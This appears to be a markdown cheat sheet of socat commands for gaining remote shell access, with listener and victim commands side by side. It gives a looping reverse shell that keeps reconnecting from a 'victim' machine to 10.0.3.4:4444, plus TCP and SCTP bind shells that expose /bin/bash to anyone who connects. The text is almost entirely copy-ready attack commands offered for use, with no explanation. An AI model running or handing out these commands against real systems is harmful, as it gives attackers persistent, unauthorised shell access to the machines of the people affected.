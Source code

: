 # Socat

## Reverse socat loop

Listener:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Victim:
```
while true; do sleep 10; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444; done &
```

## Bind shell

Listener:
```
socat TCP4-Listen:3177,fork EXEC:/bin/bash &
```

Connect:
```
socat STDIO TCP4:IP:3177
```

## SCTP

Listener:
```
socat SCTP-Listen:1177,fork EXEC:/bin/bash &
```

Connect:
```
socat STDIO SCTP:IP:1177
```
